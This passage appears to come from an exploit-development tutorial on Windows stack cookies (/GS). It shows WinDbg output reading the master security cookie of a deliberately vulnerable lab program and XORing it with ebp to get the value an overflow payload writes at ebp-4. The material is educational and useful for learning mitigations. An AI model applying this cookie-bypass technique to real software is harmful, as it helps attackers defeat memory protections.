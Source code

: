 Second, we need to obtain the correct value to write in our payload at `ebp-4`.  There are a number of ways to view the cookie's value in Windbg.  The first is by setting a program breakpoint on the fourth line in `overflow()`'s prologue when the program-wide cookie is copied to the stack in `eax`.

```
0:000> bu 00fd73a9
0:000> bl
     0 e Disable Clear  00fd73a9     0001 (0001)  0:**** vuln!overflow+0x9
0:000> g
Breakpoint 0 hit
eax=00000007 ebx=008f1000 ecx=00fe21b4 edx=00000030 esi=0103fe14 edi=0103fe18
eip=00fd73a9 esp=00affaac ebp=00affeb0 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
vuln!overflow+0x9:
00fd73a9 a130e00301      mov     eax,dword ptr [vuln!__security_cookie (0103e030)] ds:002b:0103e030=80ded670
```

When the program hits the breakpoint, it prints the address and value of the cookie on the last line: `ds:002b:0103e030=80ded670`.  Alternatively, we can directly access the cookie's value by analyzing the memory at the cookie's address `0x0103e030`.

```
0:000> dd 0103e030 L1
0103e030  80ded670
```

Or analyzing memory at the symbol `vuln!__security_cookie`.

```
0:000> dd vuln!__security_cookie L1
0103e030  80ded670
```

Either way, we end up with the same value: `0x80ded670`.  This is the program-wide master cookie.

Next the cookie will be XOR'd with the current value of the frame pointer and stored on the stack.  We use the debugger again to show the value pointed to by ebp.

```
0:000> r ebp
ebp=00affeb0
```

The ebp register points to `0x00affeb0`.  We complete the algorithm by performing the following computation.

$$\mathtt{0x80ded670}\ \oplus\ \mathtt{0x00affeb0}\ \Rightarrow\ \mathtt{0x807128c0}$$

The result `0x807128c0` is stored on the stack in `ebp-4` for the duration of the function until it is XOR'd again and compared to the master cookie before processing the return address.

This value can also be obtained by stepping through the debugger until after the XOR instruction and checking the contents of `eax`.

```
0:000> r eax
eax=807128c0
```


[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #running-the-exploit
[earlier]: #overview-of-windows-mitigations "overview"
[2]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_XOR_canaries
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[more on this later]: #running-the-exploit
[skip]: #results "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
